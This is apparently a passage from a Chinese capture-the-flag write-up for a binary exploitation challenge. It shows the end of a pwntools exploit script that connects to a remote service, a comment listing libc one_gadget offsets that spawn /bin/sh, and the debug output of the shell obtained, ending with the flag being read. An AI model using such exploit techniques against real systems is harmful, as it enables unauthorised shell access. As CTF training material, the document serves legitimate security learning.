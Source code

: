 ```python
			else:
				exe = ELF(exeFile)
				io = remote(remoteIp, remotePort)
				if LIB:
					lib = ELF(libFile)
			exploit()
			finish()
		except:
			c()
		
'''
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
[rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
[rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
[rsp+0x70] == NULL
'''

```

执行结果:

```bash
[DEBUG] Received 0x21 bytes:
    'bin\n'
    'dev\n'
    'flag\n'
    'lib\n'
    'lib32\n'
    'lib64\n'
    'pwn\n'
bin
dev
flag
lib
lib32
lib64
pwn
$ cat flag
[DEBUG] Sent 0x9 bytes:
    'cat flag\n'
[DEBUG] Received 0x33 bytes:
    'flag{\\!_!/\\~_~/\\@_@/\\#_#/\\$_$/\\^_^/\\>_</\\*_*/&_&\\}\n'
flag{\!_!/\~_~/\@_@/\#_#/\$_$/\^_^/\>_</\*_*/&_&\}
$  
```
